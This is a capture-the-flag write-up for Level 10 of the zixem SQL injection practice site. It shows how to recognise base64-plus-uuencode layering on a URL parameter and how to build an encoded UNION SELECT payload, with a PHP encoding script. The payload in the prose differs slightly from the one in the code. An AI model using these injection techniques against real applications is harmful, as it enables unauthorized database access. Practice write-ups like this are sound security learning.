


Step 1: Recognizing the Encoding
When I first visited Level 10, the URL contained a strange parameter:
text: https://www.zixem.altervista.org/SQLi/lvl10.php?x=ISwwYGAKYAo%3D
The %3D at the end is URL encoding for =, which immediately suggested Base64 encoding. I decoded ISwwYGAKYAo= and got:

text
'!,0``
`7'

This looked like garbage – not a normal SQL payload. That meant there was another encoding layer.

Step 2: Using the Hint
In the HTML source of Level 10, I found this comment:

Hint: convert_XXX
Complete the rest of the function(XXX) and you'll get your hint.
(That's part of a name of a PHP function)

I searched for PHP built-in functions starting with convert_ and found convert_uudecode() – a function that decodes uuencoded strings.

Step 3: Testing the Two-Step Decoding
I took the original x parameter value ISwwYGAKYAo= and:

Base64 decoded it → got a uuencoded string

UUdecoded that result → got 1

This confirmed the application was doing:

php
$input = convert_uudecode(base64_decode($_GET['x']));
Step 4: Building My Payload in Reverse
To inject my own SQL, I needed to work backwards:

Write my SQL payload (using MySQL syntax with CONCAT()):

text
1' UNION SELECT NULL, CONCAT(version(), '-', 'yasuke') --
UUencode the payload

Base64 encode the uuencoded result

URL encode the Base64 string (replace = with %3D)

php
<?php
$original_text = "-1 UNION SELECT NULL, CONCAT(version(), '-', 'yasuke')--";

// 1. Encode the string
$encoded = convert_uuencode($original_text);
echo "Encoded: " . $encoded . "\n";

// 2. Decode it back to original
$encodedString = base64_encode($encoded);
echo "Encoded: " . $encodedString;
?>

